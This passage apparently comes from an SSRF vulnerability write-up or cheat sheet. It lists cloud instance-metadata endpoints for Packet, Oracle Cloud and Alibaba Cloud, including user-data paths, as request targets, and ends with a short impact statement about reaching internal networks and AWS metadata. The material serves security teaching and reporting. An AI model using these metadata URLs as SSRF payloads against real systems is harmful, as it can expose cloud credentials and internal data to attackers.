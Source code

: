```jsx
Packetcloud:
https://metadata.packet.net/userdata
```

```jsx
Oracle Cloud:
http://169.254.169.254/opc/v1/instance/
```

```jsx
Alibaba Cloud:
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
http://100.100.100.200/latest/user-data
```

## **Impact:**

An attacker can tunnel into internal networks and access sensitive internal data such as AWS metadata information.



